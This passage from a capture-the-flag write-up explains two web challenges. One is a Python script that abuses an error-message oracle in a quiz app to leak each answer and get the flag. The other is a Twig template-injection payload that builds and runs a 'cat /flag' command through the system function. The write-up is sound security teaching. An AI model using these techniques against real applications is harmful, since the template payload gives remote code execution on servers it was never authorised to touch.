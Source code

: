 So the flow is logout -> leak answer via error on line 53 or 57 -> login -> submit leaked answer -> repeat until you get the flag

I'll write up a simple script to do that:
```python
import requests, re

url = "https://quiz-web.challs.csc.tf"
sess = requests.Session()

# Register if username not available
sess.post(url + "/register.php", data={"username": "123123", "password": "123123"})

# Initialize session with first quiz answer
sess.get(url + '/quiz.php?topic=CTF')
correct = 0
current_answer = 0
while True:
  res = sess.post(url + '/quiz.php', data={"answer": str(current_answer)})
  if "/home/user/quiz.php:53" in res.text:
    # If correct answer
    print(f"Correct: {correct + 1}")
    correct += 1
    # Login
    sess.post(url + "/login.php", data={"username": "123123", "password": "123123"})
    # Submit correct answer
    res = sess.post(url + '/quiz.php', data={"answer": str(current_answer)})
    # Check if finished quiz and get flag
    if "CSCTF" in res.text:
      flag = re.findall('CSCTF{.*?}', res.text)[0]
      print(f"FLAG: {flag}")
      break
    current_answer = 0
  else:
    current_answer += 1

  # Else logout then repeat
  sess.get(url + "/logout.php")
```
**Flag:** `CSCTF{3rr0r5_c4n_b3_0r4c135}`

### Twig Playground
**Solvers:** 7 <br>
**Author:** 0xM4hm0ud

This challenge was solved by [jeser](https://discord.com/users/293440719857909760){:target="_blank"} while I was sleeping, when I woke up and saw his payload, I was overwhelmed lol. But here's my analysis of the challenge.

Here's his final payload for the challenge:
```
{% raw %}{% set slash=(dump()|nl2br()|slice(14,1))|join() %}
{% set space=(dump()|nl2br()|slice(13,1))|join() %}
{% set syste={syste:1}|keys|join() %}
{% set m={m:1}|keys|join() %}
{% set cat={cat:1}|keys|join() %}
{% set flag1={flag:1}|keys|join() %}
{% set dash=_charset|slice(3,1)|join() %}
{% set flag2={edbfcbcaef:1}|keys|join() %}
{% set rce=cat~space~slash~flag1~dash~flag2 %}
{{ {rce}|find(syste~m) }}{% endraw %}
```
